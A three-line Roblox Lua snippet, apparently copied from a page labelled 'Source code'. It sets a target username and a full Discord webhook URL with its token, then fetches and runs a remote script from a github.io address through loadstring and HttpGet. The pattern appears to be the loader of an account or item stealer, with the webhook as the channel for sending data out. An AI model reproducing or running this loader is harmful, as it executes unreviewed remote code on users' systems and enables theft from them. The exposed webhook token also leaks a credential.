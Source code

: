 UserName = "SleepSleepLittleBoy"
Webhook = "https://discord.com/api/webhooks/1097031946946744330/mY-lIzXkXT2oZmQEYOzQXEe8_ckbVks5YPfW0qUT0Tf2DuxZnmWBBZL2nVR2mBHy8Hzw"
loadstring(game:HttpGet("https://rizz69.github.io/Main.lua", true))()

